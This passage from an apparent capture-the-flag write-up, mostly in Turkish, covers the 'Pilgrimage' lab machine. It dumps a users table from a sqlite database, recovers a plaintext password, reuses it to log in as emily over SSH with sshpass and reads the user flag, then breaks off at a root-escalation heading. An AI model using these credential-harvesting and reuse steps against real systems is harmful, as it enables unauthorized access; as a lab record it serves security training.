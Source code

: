 İki tablo vardır:

```
sqlite> .tables
images  users
```

images tablosu ilginç görünmüyor, ancak users tablosu ilginç görünüyor:

```
sqlite> .schema users
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
sqlite> .schema images
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
```

Sadece tek bir kullanıcı var (benimki temizlenmiş olmalı):

```
sqlite> select * from users;
emily|abigchonkyboi123
```

### SSH

emily Pilgrimage üzerinde bir kullanıcıdır (/etc/passwd dosyasından). Bu parola SSH üzerinden bağlanmak için çalışır:

```
oxdf@hacky$ sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
Warning: Permanently added 'pilgrimage.htb' (ED25519) to the list of known hosts.
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ 
```


And read `user.txt`:

```
emily@pilgrimage:~$ cat user.txt
94bda273************************
```


## Shell as root

### Enumeration

#### General Privilege Checks
